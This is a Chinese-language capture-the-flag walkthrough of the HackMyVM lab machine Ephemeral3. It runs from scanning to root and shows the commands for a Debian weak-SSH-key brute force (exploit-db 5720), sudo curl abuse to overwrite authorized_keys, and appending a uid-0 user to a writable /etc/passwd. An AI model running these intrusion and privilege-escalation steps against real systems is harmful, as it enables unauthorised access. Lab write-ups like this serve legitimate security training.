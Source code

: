 # Ephemeral3

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3

[video](https://www.bilibili.com/video/BV1yBNCeeEUQ/?spm_id_from=333.1387.0.0&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web，主页是 apache 默认页面，gobuster 进行扫描，发现: http://192.168.5.40/note.txt

```
Hey! I just generated your keys with OpenSSL. You should be able to use your private key now!
If you have any questions just email me at henry@ephemeral.com
```

发现一个可能存在的用户名 henry

发现另外一个目录: http://192.168.5.40/agency 但是是个静态网页，其他没发现什么有用信息。

还是关注一下 note 中的提示吧，提示生成了私钥，可以用私钥进行登陆，看看 openssl 有没有可以利用的漏洞，之前有一个 Predictable PRNG Brute Force SSH 进行尝试。https://www.exploit-db.com/exploits/5720

```
searchsploit -m linux/remote/5720.py

1. Download https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
2. Extract it to a directory
3. Execute the python script
   - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
```

执行没有找到：

```
python2 5720.py rsa/2048 192.168.5.40 henry 22 5
```

可能是用户名不对，同时在 http://192.168.5.40/agency/ 底部发现了另外一个邮箱：randy@ephemeral.com 发现了另外一个可能的用户名 randy 再次尝试执行脚本：

```
python2 5720.py rsa/2048 192.168.5.40 randy 22 5

找到私钥 0028ca6d22c68ed0a1e3f6f79573100a-31671
```

进行登陆：

```
ssh -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 randy@192.168.5.40
```

sudo -l 发现：(henry) NOPASSWD: /usr/bin/curl 可以先读取 henry 文件夹下的 user flag:

```
randy@ephemeral:/home/henry$ sudo -u henry curl file:///home/henry/user.txt -o /tmp/user.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
randy@ephemeral:/home/henry$ cat /tmp/user.txt
9c8e36b0cb30f09300592cb56bca0c3a
```

同时利用 curl 将公钥信息写入到 authorized_keys 中：

```
ssh-keygen -t rsa -f ./id_rsa
sudo -u henry curl file:///home/randy/id_rsa.pub -o /home/henry/.ssh/authorized_keys
```

然后使用生成的私钥登陆：

```
ssh -i id_rsa henry@192.168.5.40
henry@ephemeral:~$ id
uid=1001(henry) gid=1001(henry) groups=1001(henry)
```

枚举后发现 /etc/passwd 对 henry 用户可写，直接添加一个超级用户：

```
openssl passwd -1 -salt new 123

echo 'admin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su admin
cd /root
cat root.txt
b0a3dec84d09f03615f768c8062cec4d
```
